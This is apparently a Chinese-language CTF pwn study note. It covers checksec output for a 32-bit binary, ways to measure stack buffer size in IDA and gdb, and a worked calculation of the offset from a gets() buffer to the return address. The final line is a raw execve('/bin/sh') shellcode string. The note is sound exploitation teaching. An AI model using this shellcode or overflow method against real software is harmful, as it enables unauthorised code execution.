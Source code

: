 ## checksec

```
Arch:     i386-32-little			#程序架构信息
RELRO:    Partial RELRO				#GOT 改写
Stack:    No canary found			#canary	栈溢出保护
NX:       NX enabled				#栈中数据没有执行权限
PIE:      No PIE (0x8048000)		#位置无关可执行文件，no PIE可以使用ROP
```

# 解题方法

## 计算栈空间大小

```
方法一：直接使用IDA静态调试某个空间，查看定义给的大小，然后32位程序加4，64位程序加8
方法二：使用gdb将程序run起来之后，输入大量字符，函数会外带一个地址，转码之后就是空间大小		
```

![](https://0314valen.github.io/images/img/pwnstudy/1.jpg)

上图为32位程序的计算方式。

```
大量数据溢出之后，程序暂停后使用’x/x $rsp‘，查看RSP寄存器的地址信息和内容，将结果后面8位用于转换
```

![](https://0314valen.github.io/images/img/pwnstudy/4.jpg)

上图为64位计算方式

## 计算偏移

    下断点之后能看到
        $eax   : 0xffffcd5c  →  0x08048329  →  "__libc_start_main"
        $ebx   : 0x00000000
        $ecx   : 0xffffffff
        $edx   : 0xf7faf870  →  0x00000000
        $esp   : 0xffffcd40  →  0xffffcd5c  →  0x08048329  →  "__libc_start_main"
        $ebp   : 0xffffcdc8  →  0x00000000
        $esi   : 0xf7fae000  →  0x001b1db0
        $edi   : 0xf7fae000  →  0x001b1db0
        $eip   : 0x080486ae  →  <main+102> call 0x8048460 <gets@plt>
        在里面esp为0xffffcd40,      ebp为0xffffcdc8,         同时s相对于esp的索引为esp+0x1c(hex(0xffffcd5c-0xffffcd40)):
    得到结论
    s的地址为 0xffffcd5c：ESP中间的那个数
    s相对于 ebp 的偏移为 0x6c：ebp第一个数 减掉 esp中间的那个数(hex(0xffffcdc8-0xffffcd5c))
    s相对于返回地址的偏移为 0x6c+4：加4因为是32的程序，64位+8
    (hex(0xffffcdc8-(0xffffcd40+(0xffffcd5c-0xffffcd40))))
    esp为    0xffffced0
    ebp为    0xffffcf58
    s的地址为   0xffffcefe
    s相对于ebp的偏移为
    s相对于返回地址的偏移为
    #jhh///sh/bin\x89\xe3h\x01\x01\x01\x01\x814$ri\x01\x011\xc9Qj\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80
